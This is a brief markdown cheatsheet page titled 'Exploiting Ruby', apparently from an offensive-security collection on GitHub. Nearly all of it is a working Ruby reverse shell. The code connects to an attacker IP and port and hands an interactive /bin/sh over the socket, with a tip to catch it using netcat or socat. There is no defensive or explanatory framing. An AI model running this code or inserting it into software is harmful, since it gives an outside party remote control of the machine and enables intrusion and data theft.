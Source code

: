 # Exploiting Ruby

A simple reverse shell:

```ruby
require "socket"

attacker_ip = "10.0.0.1"
attacker_port = 1234

f = TCPSocket.open(attacker_ip, attacker_port).to_i

exec sprintf("/bin/sh -i <&%d >&%d 2>&%d", f, f, f)
```

Catch it with netcat or socat.

- [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
- [Ruby - Socket Programming](https://www.tutorialspoint.com/ruby/ruby_socket_programming.htm)
